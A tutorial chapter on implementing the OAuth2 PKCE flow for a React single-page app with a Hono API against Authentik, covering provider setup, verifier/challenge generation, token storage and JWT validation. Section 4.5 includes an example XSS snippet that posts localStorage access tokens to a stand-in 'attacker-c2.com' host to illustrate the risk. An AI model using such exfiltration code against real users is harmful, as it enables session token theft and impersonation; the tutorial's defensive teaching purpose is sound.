




# Chapter 4 — SPA App: PKCE Flow (React + Hono API)

In [**Chapter 3**](file:///Users/ben3k/workspace.ben3k/_learn_/authentik_lab_flash/Chapters/Chapter%203.md), we implemented the **Authorization Code Flow** for an SSR application (`apps/portal`). Because the server ran in a secure backend environment, it could safeguard the **Client Secret** without exposing it to the browser.

Now we enter the world of **Single Page Applications (SPAs)** and mobile/native apps. In this chapter, we build **`apps/dashboard`**, a modern **React SPA** powered by a **Hono API** backend at `https://dashboard.local.dev/`.

By the end of this chapter, you will understand:
1. Why Single Page Applications are classified as **Public Clients** and cannot keep a secret.
2. How **PKCE (Proof Key for Code Exchange)** prevents the Authorization Code Interception Attack.
3. How to configure an Authentik OAuth2/OIDC Provider specifically for **Public Clients**.
4. How to generate the cryptographic `code_verifier` and `code_challenge` in the browser using the **Web Crypto API**.
5. The trade-offs of storing tokens in memory vs. Web Storage (`localStorage` / `sessionStorage`).
6. How the React SPA calls a protected Hono REST API using **Bearer JWT authentication**.
7. How the Hono API validates incoming JWTs against Authentik's **JWKS (JSON Web Key Set)** endpoint.
8. How to perform **silent token refresh** using Refresh Tokens without disrupting the user.

---

## 4.1 — Create the `apps/dashboard` (React SPA + Hono API)

### Architecture Overview

Our dashboard application uses a dual-layer architecture running on port **3001** (`https://dashboard.local.dev` via Traefik):



### Directory Structure

```
apps/dashboard/
├── package.json         # React 19, Hono, @authentik-lab/auth
├── tsconfig.json        # TypeScript configuration with react-jsx
└── src/
    ├── index.ts         # Hono server: serves SPA shell & protected API
    └── client/          # React SPA frontend source
        ├── index.tsx    # React root mount
        ├── App.tsx      # Main application component
        └── pkce.ts      # Web Crypto PKCE helpers (verifier & challenge)
```

---

## 4.2 — Theory: Why PKCE? How It Differs from Authorization Code

### The Core Problem: Public Clients Cannot Keep Secrets

In OAuth2, clients fall into two fundamental categories:

| Client Type | Environment | Can it hold a `client_secret`? | Example |
|---|---|:---:|---|
| **Confidential Client** | Secure backend server |  **Yes** | Node.js, Bun Hono SSR (`apps/portal`), Python Django |
| **Public Client** | Browser or Mobile App | ❌ **No** | React SPA, Vue, iOS/Android apps, Electron |

If you embed a `client_secret` into a React single-page app or mobile binary, any user can open **Browser DevTools** or decompile the app and steal the secret in seconds:

```javascript
//  NEVER DO THIS!
// Any visitor can inspect source and extract your client_secret!
const clientSecret = "super-secret-key-12345";
```

Without a client secret, what stops an attacker from stealing the authorization code and trading it for access tokens?

---

### The Threat: Authorization Code Interception Attack

In a standard authorization code flow without PKCE:
1. The user logs in at Authentik.
2. Authentik redirects the browser back to `https://dashboard.local.dev/callback?code=AUTH_CODE`.
3. The authorization code appears directly in the browser's address bar and history.
4. **Attack vector**: Malicious browser extensions, open network redirects, or native app URL scheme hijacking can intercept that authorization code.
5. If the client is public (no client secret required), the attacker can send the intercepted code directly to Authentik's `/token` endpoint and receive the victim's access tokens!

---

### The Solution: PKCE (Proof Key for Code Exchange — RFC 7636)

PKCE (pronounced *"pixy"*) creates a dynamic, one-time cryptographic secret for **every single login request**. Even if an attacker steals the authorization code, it is mathematically useless to them.

Here is how the three mathematical components work:



#### 1. The `code_verifier`
A cryptographically secure random string using characters `[A-Z]`, `[a-z]`, `[0-9]`, `-`, `_`, `.`, `~` with a minimum length of 43 characters and maximum of 128 characters.
- Created in the browser using `crypto.getRandomValues()`.
- Kept **strictly in browser memory or temporary session storage**. It is **never** sent in the initial authorization request.

#### 2. The `code_challenge`
A SHA-256 hash of the `code_verifier`, encoded in Base64-URL format:
$$\text{code\_challenge} = \text{Base64URL}(\text{SHA256}(\text{code\_verifier}))$$
- Because SHA-256 is a **one-way cryptographic hash function**, it is mathematically impossible for an eavesdropper to deduce the `code_verifier` from the `code_challenge`.

#### 3. Verification at the Token Endpoint
When Authentik issues the authorization code, it records the `code_challenge`.
When the React SPA exchanges the authorization code for tokens, it sends the original `code_verifier`.
Authentik computes:
$$\text{SHA256}(\text{received code\_verifier}) \stackrel{?}{=} \text{stored code\_challenge}$$

- If they match: Authentik issues the tokens.
- If an attacker intercepted the code: They do not possess the `code_verifier`, and token exchange is **rejected**.

---

### Step-by-Step PKCE Sequence Diagram



---

### Flow Comparison: Chapter 3 vs. Chapter 4

| Feature | Chapter 3: Authorization Code (SSR) | Chapter 4: Authorization Code + PKCE (SPA) |
|---|---|---|
| **Client Type** | Confidential Client | Public Client |
| **Authentication Secret** | Static `client_secret` on server | Ephemeral `code_verifier` generated per login |
| **Token Handling** | Server only (browser gets signed cookie) | Browser JavaScript receives JWTs |
| **Interception Protection** | Client Secret kept on server | SHA-256 Hash Challenge verification |
| **API Calls** | Server reads session cookie | SPA attaches `Authorization: Bearer <token>` |
| **Logout Pattern** | Local cookie deletion + SSO end-session | In-memory token wipe + SSO end-session |

---

> [!TIP]
> The OAuth 2.1 specification officially deprecates the plain Authorization Code flow without PKCE. Today, **all** authorization code flows — even for server-side confidential clients — are recommended to use PKCE for defense-in-depth!

---

## 4.3 — Configure a New Authentik Provider (Public Client, PKCE)

### Step-by-Step Authentik Admin UI Guide: Configuring the SPA Public Provider

Unlike confidential server-side clients (which use a `client_secret`), a **Public Client** explicitly signals to Authentik that it runs in a browser and cannot protect a secret key. Authentik enforces PKCE on public clients to guarantee secure code exchange without secrets.

#### Part 1: Create the Public Provider (`dashboard-provider`)
1. Open your browser to **`https://auth.local.dev/`** and sign in as **`akadmin`**.
2. Click **Admin interface** in the top navigation bar.
3. In the left navigation sidebar, expand **Applications** → **Providers**.
4. Click the blue **Create** button.
5. In the modal dialog, select **OAuth2/OpenID Provider** → Click **Next**.
6. Fill in the form fields with the exact values below:

| Field | Value | Purpose |
|---|---|---|
| **Name** | `dashboard-provider` | Provider name in Authentik |
| **Authorization flow** | `default-provider-authorization-implicit-consent` | Allows instant authorization when SSO session exists |
| **Invalidation flow** | `default-invalidation-flow` | Flow triggered during logout |
| **Client type** | `Public` | **Crucial**: Disables `client_secret` requirement on `/token` endpoint |
| **Client ID** | `dashboard-client` | Public identifier used by the React SPA |
| **Client Secret** | *(Leave blank / empty)* | Public clients must never have a client secret |
| **Redirect URIs/Origins** | `https://dashboard.local.dev/callback`<br/>`https://dashboard.local.dev/`<br/>`http://localhost:3001/callback`<br/>`http://localhost:3001/` | Whitelist of allowed redirect endpoints AND allowed CORS origins (one per line) |
| **Signing Key** | `authentik Self-signed Certificate` | RSA certificate used to sign RS256 JWT tokens |

7. Expand **Advanced protocol settings**:
   - **Include claims in id_token**: Checked
   - **Selected property mappings**: Select `OpenID 'openid'`, `'email'`, `'profile'`, and (in Chapter 6) `'authentik lab: Roles and Permissions'`.
8. Click **Finish**.

---

#### Part 2: How Authentik Handles CORS for SPAs

When a browser executes `fetch("https://auth.local.dev/application/o/token/")`, the browser sends an HTTP `OPTIONS` preflight request. If the server does not return `Access-Control-Allow-Origin: https://dashboard.local.dev`, the browser blocks the token exchange!

In Authentik's `TokenView` (`authentik/providers/oauth2/views/token.py`), Authentik automatically derives the allowed CORS origins directly from the provider's registered redirect URIs:

```python
# Authentik's internal CORS logic in token.py:
if self.provider:
    allowed_origins = [x.url for x in self.provider.redirect_uris]
cors_allow(self.request, response, *allowed_origins)
```

Because `https://dashboard.local.dev/callback` and `https://dashboard.local.dev/` are registered in the Redirect URIs table, Authentik automatically returns:
```http
Access-Control-Allow-Origin: https://dashboard.local.dev
Access-Control-Allow-Methods: POST, OPTIONS
Access-Control-Allow-Headers: Content-Type, Authorization
```

---

#### Part 3: Create the Application (`Developer Dashboard`)
1. In the left sidebar, navigate to **Applications** → **Applications**.
2. Click the blue **Create** button.
3. Fill in the application fields:

| Field | Value | Purpose |
|---|---|---|
| **Name** | `Developer Dashboard` | Title displayed on the user's application dashboard |
| **Slug** | `dashboard` | Unique URL slug (`/application/o/dashboard/`) |
| **Provider** | `dashboard-provider` | Binds this app to the public client provider created in Part 1 |
| **Launch URL** | `https://dashboard.local.dev/` | Destination URL when clicking this tile in Authentik |

4. Click **Create**.

> [!TIP]
> **Automated Setup Alternative**: Running `docker exec -i authentik-server ak shell < scripts/seed-authentik.py` will also idempotently seed `dashboard-provider` and `dashboard` application.

---

## 4.4 — Implement PKCE Login Flow in the React SPA

### 1. Generating Cryptographic Keys with Web Crypto API

In [`apps/dashboard/src/client/pkce.ts`](file:///Users/ben3k/workspace.ben3k/_learn_/authentik_lab_flash/apps/dashboard/src/client/pkce.ts), we use the browser's standard `window.crypto` API:

```typescript
// 1. Generate high-entropy random string (RFC 7636)
export function generateRandomString(length: number = 64): string {
  const charset = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789-._~";
  const randomValues = new Uint8Array(length);
  crypto.getRandomValues(randomValues);
  
  let result = "";
  for (let i = 0; i < length; i++) {
    result += charset[randomValues[i] % charset.length];
  }
  return result;
}

// 2. Base64-URL encode without padding
function base64UrlEncode(buffer: ArrayBuffer): string {
  const bytes = new Uint8Array(buffer);
  let binary = "";
  for (let i = 0; i < bytes.byteLength; i++) {
    binary += String.fromCharCode(bytes[i]);
  }
  return btoa(binary)
    .replace(/\+/g, "-")
    .replace(/\//g, "_")
    .replace(/=+$/, "");
}

// 3. Compute SHA-256 Code Challenge
export async function generateCodeChallenge(verifier: string): Promise<string> {
  const encoder = new TextEncoder();
  const data = encoder.encode(verifier);
  const digest = await crypto.subtle.digest("SHA-256", data);
  return base64UrlEncode(digest);
}
```

### 2. Initiating the Login Redirect

When the user clicks **Sign in with Authentik (PKCE)** in [`App.tsx`](file:///Users/ben3k/workspace.ben3k/_learn_/authentik_lab_flash/apps/dashboard/src/client/App.tsx):

```typescript
async function handleLogin() {
  const state = generateRandomString(32);
  const codeVerifier = generateRandomString(64);
  const codeChallenge = await generateCodeChallenge(codeVerifier);

  // Store in sessionStorage for verification when Authentik redirects back
  sessionStorage.setItem("pkce_state", state);
  sessionStorage.setItem("pkce_code_verifier", codeVerifier);

  const authUrl = new URL("https://auth.local.dev/application/o/authorize/");
  authUrl.searchParams.set("response_type", "code");
  authUrl.searchParams.set("client_id", "dashboard-client");
  authUrl.searchParams.set("redirect_uri", "https://dashboard.local.dev/callback");
  authUrl.searchParams.set("scope", "openid profile email");
  authUrl.searchParams.set("state", state);
  authUrl.searchParams.set("code_challenge", codeChallenge);
  authUrl.searchParams.set("code_challenge_method", "S256");

  window.location.href = authUrl.toString();
}
```

### 3. Handling the Redirect Callback & Token Exchange

When Authentik redirects the browser back to `https://dashboard.local.dev/callback?code=...&state=...`, our React component mounts and executes:

```typescript
useEffect(() => {
  async function handleAuth() {
    const urlParams = new URLSearchParams(window.location.search);
    const code = urlParams.get("code");
    const state = urlParams.get("state");

    if (!code) return;

    // 1. Verify CSRF State
    const storedState = sessionStorage.getItem("pkce_state");
    const codeVerifier = sessionStorage.getItem("pkce_code_verifier");

    if (!storedState || storedState !== state) {
      throw new Error("CSRF state mismatch!");
    }

    // 2. Exchange code + code_verifier for tokens directly from the browser
    const body = new URLSearchParams({
      grant_type: "authorization_code",
      client_id: "dashboard-client",
      code,
      redirect_uri: "https://dashboard.local.dev/callback",
      code_verifier: codeVerifier!,
    });

    const res = await fetch("https://auth.local.dev/application/o/token/", {
      method: "POST",
      headers: { "Content-Type": "application/x-www-form-urlencoded" },
      body: body.toString(),
    });

    const tokenData = await res.json();
    setTokens(tokenData);

    // 3. Clean up storage and clean the browser URL bar
    sessionStorage.removeItem("pkce_state");
    sessionStorage.removeItem("pkce_code_verifier");
    window.history.replaceState({}, document.title, window.location.pathname);
  }

  handleAuth();
}, []);
```

---

### Verification: Running the React Dashboard

Start or verify the dashboard server natively:

```bash
bun run dev:dashboard
```

Navigate to:
- **`https://dashboard.local.dev/`**

Test the live flow:
1. Click **Sign in with Authentik (PKCE)**.
2. If already logged in via SSO, you are authenticated seamlessly with zero prompts.
3. Observe the decoded ID token claims displayed in the React UI.
4. Click **Call /api/stats** to test the API endpoint.

---

## 4.5 — Token Storage in the Browser: The Security Debate

Once your React SPA receives an Access Token and ID Token from Authentik, where should you store them? This is one of the most critical security decisions in frontend architecture.

### The Storage Options Compared

| Storage Method | Survives Page Refresh (F5)? | Shared Across Tabs? | Vulnerable to XSS Token Theft? | Recommendation |
|---|:---:|:---:|:---:|---|
| **In-Memory (React State / Closure)** | ❌ No | ❌ No |  **Low** (Protected from casual script dumps) | **Recommended for Access Tokens** |
| **`sessionStorage`** |  Yes | ❌ No | ❌ **High** (`sessionStorage.getItem()`) | Acceptable for transient `code_verifier` |
| **`localStorage`** |  Yes |  Yes | ❌ **Critical** (Permanent token exfiltration) | ⚠️ **Never store raw Access Tokens here** |
| **`HttpOnly` Cookie (BFF Pattern)** |  Yes |  Yes |  **Immune to JS reading** | **Gold Standard** (covered in Section 4.8) |

### Why `localStorage` is Dangerous for Tokens

Any third-party library, analytics script, or compromised npm package running on your page can access `localStorage`:

```javascript
// Any XSS payload or malicious dependency can run this:
fetch("https://attacker-c2.com/exfiltrate", {
  method: "POST",
  body: JSON.stringify({
    stolenToken: localStorage.getItem("access_token"),
    userData: localStorage.getItem("user_profile")
  })
});
```

Because access tokens are bearer tokens, an attacker who extracts your token from `localStorage` can impersonate the user against your APIs from anywhere in the world until the token expires.

### The Modern Best Practice

1. **Keep Access Tokens strictly in React memory** (e.g. React `useState` / React Context / Zustand / Redux).
2. If the user presses **F5 (Refresh)**, do not force them to type their credentials again. Instead, trigger a **Silent Token Restore**:
   - Because the user still has an active SSO session cookie at `https://auth.local.dev/`, your app can silently request a new token or verify authentication via SSO.

---

## 4.6 — Call the Hono API with Bearer Token

Once the React SPA holds a valid Access Token in memory, it uses the standard **OAuth 2.0 Bearer Token format** ([RFC 6750](https://datatracker.ietf.org/doc/html/rfc6750)) to call protected endpoints:

```typescript
// React Client: apps/dashboard/src/client/App.tsx
async function callProtectedApi() {
  if (!tokens) return;

  const res = await fetch("/api/stats", {
    headers: {
      Authorization: `Bearer ${tokens.access_token}`,
    },
  });

  if (!res.ok) {
    throw new Error(`API error: ${res.statusText}`);
  }

  const data = await res.json();
  setApiData(data);
}
```

---

## 4.7 — JWT Validation in the Hono API Middleware

In an OAuth2 architecture, resource servers (our Hono API) do not query the Identity Provider database for every single HTTP request. Instead, they validate incoming tokens **statelessly and cryptographically** using public-key cryptography (RS256).



### Implementing `requireJwtAuth()` with `jose`

In [`apps/dashboard/src/index.ts`](file:///Users/ben3k/workspace.ben3k/_learn_/authentik_lab_flash/apps/dashboard/src/index.ts):

```typescript
import { createRemoteJWKSet, jwtVerify } from "jose";

const AUTH_CONFIG = {
  issuer: "https://auth.local.dev/application/o/dashboard/",
  jwksUrl: "https://auth.local.dev/application/o/dashboard/jwks/",
  audience: "dashboard-client",
};

// Caches and refreshes public keys automatically
const JWKS = createRemoteJWKSet(new URL(AUTH_CONFIG.jwksUrl));

export const requireJwtAuth = () => {
  return async (c: any, next: any) => {
    const authHeader = c.req.header("Authorization");
    if (!authHeader || !authHeader.startsWith("Bearer ")) {
      return c.json({ error: "Missing or invalid Authorization header" }, 401);
    }

    const token = authHeader.substring(7);
    try {
      // Cryptographically verifies signature, issuer, audience, and exp
      const { payload } = await jwtVerify(token, JWKS, {
        issuer: AUTH_CONFIG.issuer,
        audience: AUTH_CONFIG.audience,
      });

      // Inject validated claims into Hono context
      c.set("jwtUser", payload);
      await next();
    } catch (err: any) {
      console.error("JWT verification failed:", err.message);
      return c.json({ error: "Invalid token", details: err.message }, 401);
    }
  };
};
```

### Protecting the Endpoint

```typescript
app.get("/api/stats", requireJwtAuth(), (c) => {
  const user = c.get("jwtUser");
  return c.json({
    status: "ok",
    message: `Hello ${user.preferred_username || user.name}, authenticated via Authentik JWT!`,
    timestamp: new Date().toISOString(),
    user: {
      sub: user.sub,
      username: user.preferred_username,
      email: user.email,
      groups: user.groups || [],
    },
    metrics: {
      uptime: "99.99%",
      activeClusters: 4,
      totalDeployments: 42,
    },
  });
});
```

---

## 4.8 — Silent Token Refresh & Lifecycle

### Refresh Token Grant in PKCE

Authentik Access Tokens expire (default: 1 hour). When an access token expires, an SPA should not disrupt the user with a login prompt.

If Authentik issues a `refresh_token`, the SPA can exchange it for a new access token without user interaction:

```http
POST /application/o/token/ HTTP/1.1
Host: auth.local.dev
Content-Type: application/x-www-form-urlencoded

grant_type=refresh_token&
client_id=dashboard-client&
refresh_token=YOUR_REFRESH_TOKEN
```

### Refresh Token Rotation (RTR)

To protect public clients, modern identity providers implement **Refresh Token Rotation**:
1. Every time a refresh token is used, Authentik invalidates it and issues a **new** refresh token.
2. If an attacker and a legitimate client attempt to use the same refresh token twice, Authentik detects the token replay and **immediately revokes all tokens** for that session family.

---

### Chapter 4 Summary & Key Takeaways

1. **Public Clients**: SPAs and mobile apps cannot keep a `client_secret` confidential. Any secret shipped in client code is compromised by design.
2. **PKCE Mitigation**: Proof Key for Code Exchange binds the authorization code to an ephemeral, cryptographically random `code_verifier` generated in the browser and verified via a SHA-256 `code_challenge`.
3. **Stateless API Verification**: Resource servers do not need to query the Identity Provider database. By verifying JWT signatures against Authentik's public JWKS endpoint, APIs achieve horizontal scalability with microsecond response times.
4. **Token Security**: Raw Access Tokens should remain in browser memory to prevent persistent token theft via Cross-Site Scripting (XSS).
